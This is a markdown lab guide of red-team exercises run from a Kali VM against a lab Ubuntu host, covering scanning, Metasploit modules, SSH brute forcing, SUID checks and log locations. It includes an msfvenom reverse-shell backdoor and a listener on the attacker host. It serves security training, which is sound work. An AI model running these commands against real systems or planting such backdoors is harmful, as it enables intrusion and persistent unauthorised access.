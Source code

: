 # Red Team Exercises

This guide provides a series of exercises to practice offensive security techniques using your Kali Linux virtual machine. These exercises will help you understand common attack vectors and develop skills in penetration testing.

## Prerequisite Setup

Before starting these exercises, ensure:
1. Your Kali Linux VM is properly configured
2. Metasploit is installed and updated
3. The network connection between VMs is established
4. You have basic familiarity with Linux commands and security concepts

## Exercise 1: Reconnaissance

### Network Scanning with Nmap

1. **Basic Network Scan**
   ```bash
   sudo nmap -sn 192.168.176.0/24
   ```
   This will discover active hosts on your network.

2. **Detailed Scan of Ubuntu Server**
   ```bash
   sudo nmap -A 192.168.176.20
   ```
   This will identify open ports, running services, and version information.

3. **Vulnerability Scanning**
   ```bash
   sudo nmap --script vuln 192.168.176.20
   ```
   This scans for known vulnerabilities.

### Information Gathering

1. **Passive Reconnaissance**
   - Use tools like `whois`, `dig`, and `recon-ng` to gather information without directly interacting with the target.
   
2. **Service Enumeration**
   ```bash
   sudo nmap -sV -p 22,80,443 192.168.176.20
   ```
   This identifies specific services running on common ports.

## Exercise 2: Vulnerability Assessment

### Using Metasploit for Vulnerability Scanning

1. **Start Metasploit**
   ```bash
   sudo msfconsole
   ```

2. **Scan for SMB Vulnerabilities**
   ```
   use auxiliary/scanner/smb/smb_version
   set RHOSTS 192.168.176.20
   run
   ```

3. **Scan for SSH Vulnerabilities**
   ```
   use auxiliary/scanner/ssh/ssh_version
   set RHOSTS 192.168.176.20
   run
   ```

### Web Application Assessment

1. **Use Nikto for Web Server Scanning**
   ```bash
   nikto -h 192.168.176.20
   ```

2. **Directory Enumeration with Dirb**
   ```bash
   dirb http://192.168.176.20
   ```

## Exercise 3: Exploitation Techniques

### Basic Exploitation with Metasploit

1. **Search for Exploits**
   ```
   search type:exploit platform:linux
   ```

2. **Set Up a Basic Exploit (Example)**
   ```
   use exploit/unix/webapp/phpmyadmin_config
   set RHOSTS 192.168.176.20
   show options
   set required options
   exploit
   ```

### Password Attacks

1. **SSH Brute Force (For Educational Purposes Only)**
   ```
   use auxiliary/scanner/ssh/ssh_login
   set RHOSTS 192.168.176.20
   set USER_FILE /usr/share/wordlists/metasploit/unix_users.txt
   set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
   set VERBOSE true
   run
   ```

## Exercise 4: Post-Exploitation

### Information Gathering After Access

1. **Basic System Information**
   ```
   sysinfo
   ```

2. **User Information**
   ```
   getuid
   ```

3. **Network Configuration**
   ```
   ifconfig
   netstat -ano
   ```

### Privilege Escalation

1. **Check for SUID Binaries**
   ```
   find / -perm -u=s -type f 2>/dev/null
   ```

2. **Check for Writable Files**
   ```
   find / -writable -type f 2>/dev/null
   ```

## Exercise 5: Maintaining Access

### Creating Backdoors (Educational Purposes Only)

1. **Generate a Simple Payload**
   ```bash
   msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.176.10 LPORT=4444 -f elf -o backdoor
   ```

2. **Set Up a Listener**
   ```
   use exploit/multi/handler
   set PAYLOAD linux/x86/meterpreter/reverse_tcp
   set LHOST 192.168.176.10
   set LPORT 4444
   exploit
   ```

## Exercise 6: Covering Tracks

### Log Manipulation (Educational Purposes Only)

1. **Viewing System Logs**
   ```bash
   cat /var/log/auth.log
   ```

2. **Learning About Log Locations**
   - `/var/log/auth.log` - Authentication logs
   - `/var/log/syslog` - System logs
   - `/var/log/apache2/access.log` - Web server access logs

## Safe Practice Guidelines

1. **Only attack systems you have permission to test**
2. **Document all your actions**
3. **Be aware of legal implications of security testing**
4. **Report vulnerabilities responsibly**
5. **Use these skills ethically and professionally**

## Next Steps
After practicing these exercises, check out:
- [Blue Team Monitoring](blue_team_monitoring.md) to understand how these attacks can be detected
- Advanced exploitation techniques and custom exploit development 